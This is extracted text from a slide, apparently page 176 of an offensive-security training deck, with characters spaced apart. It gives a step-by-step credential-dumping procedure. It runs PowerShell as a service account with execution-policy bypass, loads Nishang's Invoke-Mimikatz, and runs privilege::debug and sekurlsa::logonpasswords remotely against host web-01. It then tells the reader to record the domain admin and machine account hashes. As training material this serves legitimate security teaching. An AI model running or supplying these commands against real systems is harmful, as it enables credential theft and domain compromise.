

r u n a s . e x e	/ u s e r : i i s . s r v c @ a l t o . t e l	" P o w e r S h e l l . e x e	- ep
b y p a s s “

c d	C : \ To o l s \
DUMP WEB-01 HASHES REMOTELY
I m p o r t - M o d u l e  I n v o k e - M i m i k a t z - N i s h a n g . p s 1
I n v o k e - M i m i k a t z	- C o m p u t e r N a m e	w e b - 01	- C o m m a n d
p r i v i l e g e : : d e b u g
I n v o k e - M i m i k a t z	- C o m p u t e r N a m e	w e b - 01	- C o m m a n d
s e k u r l s a :: l o g o n p a s s w o r d s
N o t e	D o w n	t h e	D a d m i n . u s e r  a n d	W e b - 0 1 $	m a c h i n e a c c o u n t	h a s h e s
176